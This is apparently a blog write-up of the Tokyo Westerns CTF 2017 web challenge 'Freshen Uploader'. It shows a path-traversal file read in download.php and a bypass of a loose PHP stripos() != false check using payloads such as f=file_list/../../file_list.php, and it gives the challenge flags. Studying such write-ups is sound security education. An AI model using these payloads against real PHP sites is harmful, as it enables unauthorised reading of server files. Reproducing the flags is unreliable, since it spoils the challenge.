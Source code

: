 ```yaml
---
layout: post
title: Tokyo Westerns CTF 2017 - Web 1 - Freshen Uploader
date: 2017-09-04 11:58:11.000000000 +05:30
excerpt: "A web challenge, where we have a exploit a LFI and then a vulnerable type check in PHP against return value of a string function named 'stripos'"
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 792fe2131db0a2d0bc7b58330df0676b
---
```


In this challenge they provided a simple web page hosted at [http://fup.chal.ctf.westerns.tokyo/][chal-link]{:target="_blank"} (might not be available at this time).

{% include image.html url="/assets/792fe2131db0a2d0bc7b58330df0676b/home_page.png" description="Front page of the given challenge" %}

All this page has is a download link, so I quickly had a look at the download link.

`http://fup.chal.ctf.westerns.tokyo/download.php?f=6a92b449761226434f5fce6c8e87295a`

Ah oh! Looks like we can change URL parameter `f`, so I tried to download the script `download.php` by changing parameter value to `f=../download.php`. Yay! It worked! so this is an LFI.

{% highlight php %}
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
?>
{% endhighlight %}

We got our first flag: **TWCTF{then_can_y0u_read_file_list?}**.

So we still need to read file_list to get another flag. Well! we went ahead and downloaded `index.php` this time.

{% highlight php %}
<?php
include('file_list.php');
?>
... some redacted HTML code ...
{% endhighlight %}

So, we need to download source code of file_list.php as well. But! the condition `stripos($filename, 'file_list') != false) die();` is not letting us download this file. Somehow we need to bypass this.

After a few minutes of struggle to understand what's wrong, my eyes glazed over `!=` operator which will not check type. So, I quickly opened up a php interpreter on my machine to do some trails.

<pre>
php > if(stripos("file_list.php","file_list") != false) print "I'm here";
php > if(stripos("hello file_list.php","file_list") != false) print "I'm here";
I'm here
php > echo stripos("file_list.php","file_list");
0
php > echo stripos("hello file_list.php","file_list");
6
</pre>

From the above, it looks like stripos is taking a source string as first parameter and substring to find as a second parameter then it's returning the first index where it found the given substring. So, by putting the string `file_list` at the very beginning of parameter 'f' will make the result of stripos to zero, which will bypass the condition. Awesome! Now all we need to do is `f=file_list/../../file_list.php`

{% highlight php %}
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
?>
{% endhighlight %}

Well! we have the secret file name where our flag is `flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213`.

Now we can download the file simply by using the payload `f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213`.

And the flag is: **TWCTF{php_is_very_secure}**

A little sarcasm included ¯\_(ツ)_/¯


[chal-link]: http://fup.chal.ctf.westerns.tokyo/

